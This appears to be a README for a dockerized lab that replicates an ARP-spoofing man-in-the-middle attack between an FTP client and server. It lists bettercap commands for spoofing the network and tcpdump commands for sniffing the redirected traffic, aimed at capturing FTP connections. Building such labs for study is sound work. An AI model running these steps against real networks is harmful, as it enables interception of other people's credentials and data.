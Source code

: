 # inquisitor PoC
Setting up of a dockerized virtual environment to test and replicate a MitM attack between an FTP server and a client.  
Network layout consists on three nodes connected on a virtual network; an FTP server using vsftpd, an FTP client using lftp, and an attacker nodes equipped with bettercap and tcpdump to spoof and then sniff its network, with its aim of intercept every FTP connection between client and server.
## client
Usage:
```
lftp -d server
```
Default FTP server credentials are *ftp-usr:1234*
## server
Server node, set up vsftpd server as PASV [port 21 for conn., 10000-10009 ports for file transm.]
## attacker
Attack node, we are going to redirect all network between C and S through this container.  
For this purpose we will use two different tools:
### bettercap
ARP spoofing tool we will be using in this particular test.
* init bettercap
```
 ./bettercap -iface INTERFACE
```
* detect devices connected to local network
```
net.probe [on|off]
```
* shows detected devices connected to network
```
net.show
```
* ARP spoofing attack configuration options
```
set arp.spoof.fullduplex [true|false]
set arp.spoof.internal [true|false]
set arp.spoof.targets [IP, ...]
arp.spoof on
```
* monitor spoofed networks
```
set net.sniff.verbose [true|false]
net.sniff [on|off]
```
### tcpdump
Our network sniffing tool.
```
tcpdump -i eth0 -p tcp and host CLIENT-IP
```
* -i: choose network interface device [default - eth0]
* -p: set promiscuous mode to false [making sure spoofing works and network is being redirected]
* 'tcp and host CLIENT-IP': set network filter; only prints tcp connections from or to client IP
### usage
```
./init.sh [up | victim | sniff | arplogs ] 
```
* up: bring up network
* victim: starts FTP connection on client
* sniff: starts tcpdump network sniffing on attacker
* arplogs: monitor ARP table on client
